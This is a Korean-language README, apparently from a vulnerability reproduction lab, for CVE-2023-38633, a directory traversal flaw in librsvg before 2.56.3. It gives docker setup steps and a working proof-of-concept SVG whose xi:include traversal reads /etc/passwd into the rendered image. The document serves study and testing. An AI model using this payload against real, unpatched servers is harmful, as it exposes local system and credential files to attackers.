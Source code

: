 # CVE-2023-38633

**Contributors**

-   [박건호(@ian9292)](https://github.com/ian9292)
-   [이승환(@EL55)]([@url](https://github.com/EL55))


### 요약
- Librsvg는 GNOME 프로젝트의 일부로 작성된 무료 소프트웨어 SVG 렌더링 라이브러리로, 가볍고 이식성이 뛰어남.
- 2.56.3 이전의 libsvg의 URL 디코더에서 Directory Traversal 문제는 로컬 또는 원격 공격자가 파일(예상 영역 밖의 로컬 파일 시스템에 있는)을 노출하는 데 사용될 수 있음.
- xi:include 요소에서 href=".?../../../../../../../../../../etc/passwd"와 같은 방식으로 사용될 수 있음.
- xi: include 요소에서 href="?"?/../../.././etc/passwd에 의해 알 수 있음.


### 환경 구성 및 실행
-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.
-   `http://your-ip:8080/`에 접속하여 업로드 페이지에 접근함.
-   `SVG 이미지를 서버에 업로드하면 '/etc/passwd'가 포함된 이미지가 표시됨.


### poc.svg
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="300" height="300" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="300" height="300" style="fill:rgb(255,255,255);" />
  <text x="10" y="100">
    <xi:include href=".?../../../../../../../../../../etc/passwd" parse="text" encoding="UTF-8">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</svg>
```

### 결과
![](1.png)
